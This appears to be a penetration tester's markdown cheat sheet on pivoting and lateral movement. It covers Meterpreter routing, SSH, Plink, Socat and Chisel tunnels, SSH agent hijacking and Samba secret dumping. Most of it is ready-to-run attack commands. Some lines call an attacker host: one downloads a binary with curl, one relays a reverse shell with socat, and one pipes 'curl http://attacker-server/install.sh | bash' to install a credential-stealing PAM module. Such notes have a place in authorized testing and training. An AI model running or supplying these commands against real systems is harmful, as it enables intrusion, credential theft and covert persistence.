 # Meterpreter
#### Route
* * `meterpreter > run autoroute -s 10.2.31.0/24`
    </br> or </br>
* * `route add <10.10.10.0> <255.255.255.0> <session-ID>`
* background meterpreter
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `use auxiliary/server/socks_proxy`
* configure it according with `cat /etc/proxychains.conf`
* `run/exploit` socks_proxy
* in linux host use `proxychains nmap -sT ...`
#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
    * `meterpreter> portfwd list` - check port forwarding list
    * in linux host, run `nmap <local_port>`

# Manual tactics
#### Port Forwarding - SSH
* `ssh -4 -L 8000:127.0.0.1:3306 sysadmin@demo.ine.local` - forward target port _3306_ to attackers local port _8000_
    *  `-4` - use IPv4 only
*  `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
    *  existing access on _172.16.0.5_
    *  forwards target's (_172.16.0.10) HTTP traffic through existing access _172.16.0.5_
    *  accessible on _localhost:8000_ as attacker machine
    *  `-f` - backgrounds the shell immediately
    *  `-N` don't execute commands, only set up connection

#### Proxies - SSH
* `ssh -D 1337 user@172.16.0.5 -fN`
    * combined with `proxychains`
 
#### Reverse connections
1. generate new ssh keys: `ssh-keygen`
2. copy content of _.pub_ file and paste it on attacker's machine in `~/.ssh/authorized_keys`
3. copy `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty` at the beginning of `~/.ssh/authorized_keys`
4. copy attacker's private ssh key on target's system
5. `ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN` - connect from the victim back to attacker with a reverse port forward

#### Reverse proxy - SSH
1. same step as above except 5.
2. `ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`- from the victim

## Tools
### Plink
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
1. transport `plink.exe` to victim
2. move public key in `~/.ssh/authorized_keys`
3. convert the generated _keyfile_
    *  `sudo apt install putty-tools`
    *  `puttygen KEYFILE -o OUTPUT_KEY.ppk`
4. `cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

### Socat
* set up encrypted traffic
* bypassing AV might require custom compilation
* https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat - Linux static binaries
* https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download - Windows static binaries
1. copy binary to target: `curl ATTACKING_IP/socat -o /tmp/socat && chmod +x /tmp/socat-USERNAME`
#### Reverse shell relay
2. attacking box: `sudo nc -lvnp 443`
3. compromised server: `./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`
#### Port forwarding
__Easy__

2. compromised server: `./socat tcp-l:33060,fork,reuseaddr tcp:<target-IP>:3306 &`
    * port _33060_ on victim is redirected to _target-IP_ port _3306_

__Quiet__

2. attacking machine: `socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`
3. compromised server: `./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`
4. target accessible back on attacking machine on _localhost:8000_

### Chisel
https://github.com/jpillora/chisel/releases
* `chisel client|server --help`
* configure `proxuchains` according to details bellow
#### Reverse SOCKS proxy
1. attacking machine: `./chisel server -p LISTEN_PORT --reverse &`
2. compromise host: `./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`

#### Forward SOCKS proxy
1. compromised host: `./chisel server -p LISTEN_PORT --socks5`
2. attacking machine: `./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

#### Remote port forward
1. attacking machine: `./chisel server -p LISTEN_PORT --reverse &`
2. compromised host: `./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`
3. connect on the attacker machine on `127.0.0.1:LOCAL_PORT`

#### Local port forward
1. compromised host: `./chisel server -p LISTEN_PORT`
2. attacking machine: `./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

> [!IMPORTANT]
> * when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
> * use `bind_tcp` payloads 

# Linux
* __SSH session hijacking__
    * requires **active** SSH session on the target
    * requires **root** 
    * `ps aux | grep sshd` - determine SSH process ID
    * `grep SSH_AUTH_SOCK /proc/<PID>/environ`
    * `SSH_AUTH_SOCK=/tmp/ssh-XXXX/agent.XXX ssh-add -l` - hijack target ssh-agent socket
    * `ssh remotesystem -l <victim>` - log into remote system as victim
* __SSH - stealing credentials__
    * malicious PAM module
    * https://github.com/mthbernardes/sshLooter
    * on attacking machine: edit _install.sh_ and _looter.py_ pointing _url_ variable to a server under attacket control to log POST requests
    * on compromised machine: `curl http://attacker-server/install.sh | bash`
* __Samba secrets__
    * `tdbdump /var/lib/samba/private/secrets.tdb`
    * https://medium.com/@br4nsh/from-linux-to-ad-10efb529fae9

# Local Techniques
#### Local Port forward
* `ssh -L <local port to listen on>:<remote machine>:<remote port> <username>@<ssh-server>`

## Cool resources
https://book.hacktricks.xyz/tunneling-and-port-forwarding

